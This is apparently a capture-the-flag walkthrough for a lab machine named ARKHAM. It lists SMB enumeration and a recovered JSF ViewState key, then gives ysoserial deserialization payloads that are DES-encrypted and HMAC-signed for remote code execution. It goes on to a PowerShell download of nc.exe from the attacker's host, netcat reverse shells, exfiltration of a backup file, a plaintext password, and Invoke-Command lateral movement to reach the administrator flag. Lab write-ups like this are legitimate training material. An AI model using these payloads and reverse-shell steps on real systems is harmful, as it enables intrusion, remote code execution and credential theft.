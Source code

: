 /css (Status: 302)

/fonts (Status: 302)

/images (Status: 302)

/index.html (Status: 200)

/js (Status: 302)


echo exit | smbclient -L \\\\10.10.10.130

Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------

	ADMIN$          Disk      Remote Admin
	BatShare        Disk      Master Wayne's secrets
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Users           Disk      

Reconnecting with SMB1 for workgroup listing.

You will get one .img file from Batshare. use binwalk -e to extract it, then go to appserver/_backup.img.extracted/825A23/Mask/tomcat-stuff/web.xml.bak there you will get 

secret: SnNGOTg3Ni0=(JsF9876-), algorithm: HmacSHA1, hex_of_key: 4a7346393837362d

http://10.10.10.130:8080/userSubscribe.faces, There is hmacsha1 value there will lead to RCE.


https://www.exploit-db.com/docs/english/44756-deserialization-vulnerability.pdf

https://github.com/frohoff/ysoserial

https://gist.github.com/cdowns71/76d99ad0829ceef3a83761dbeee3b66d

`java -jar ysoserial.jar CommonsCollections5 'ping -n 3 ip' > ping.bin`

`openssl enc -des-ecb -K 4a7346393837362d -in ping.bin -out ping.bin.enc`

`python hmac_base64.py`

`base64 -d <<<abXMqIAUzdaQA25mFb1ovRxccCw= >> ping.bin.enc`

`openssl enc -base64 -in ping.bin.enc -out ping.bin.enc.b64`

`cat ping.bin.enc.b64`


url encode and use it.


`java -jar ysoserial.jar CommonsCollections5 'Powershell "Invoke-WebRequest -Uri http://ip:8081/nc.exe -OutFile nc.exe"'> ping.bin`

`openssl enc -des-ecb -K 4a7346393837362d -in ping.bin -out ping.bin.enc`

`python hmac_base64.py `

`base64 -d <<< ArqWVb1VFRSsNaUqCAuW9tqJj4Y= >>ping.bin.enc`

`openssl enc -base64 -in ping.bin.enc -out ping.bin.enc.b64`

`cat ping.bin.enc.b64`

url encode and use it.


`java -jar ysoserial.jar CommonsCollections5 'nc.exe ip 5546 -e cmd.exe"' >ping.bin`

`openssl enc -des-ecb -K 4a7346393837362d -in ping.bin -out ping.bin.enc`

`python hmac_base64.py`

`base64 -d <<< pGm5fNa37T+rO7I4kPVOH5HokpE= >> ping.bin.enc`

`openssl enc -base64 -in ping.bin.enc -out ping.bin.enc.b64`

`cat ping.bin.enc.b64`

url encode and use it.


`Powershell "Invoke-WebRequest -Uri http://ip:8081/JAWS/jaws-enum.ps1 -OutFile jaws-enum.ps1"`

`powershell -File jaws-enum.ps1`


`nc -l -p 5547 > backup.zip (receiver end)`

`C:\tomcat\apache-tomcat-8.5.37\bin\nc.exe -w 3 ip 5547 < backup.zip (sender)`

`readpst outlook_folder`

you will get base64 encoded image then decode it, it will show you the password of batman

`batman:Zx^#QZX+T!123`


`$username = 'batman';`

`$password = 'Zx^#QZX+T!123';`

`$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;`

`$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword`

`Invoke-Command -ComputerName ARKHAM -Credential $credential -ScriptBlock {C:\tomcat\apache-tomcat-8.5.37\bin\nc.exe ip 5547 -e cmd.exe}`

It will give you reverse connection.

net use E: \\ARKHAM\C$

E:

cd Users\Administrator\Desktop

more root.txt
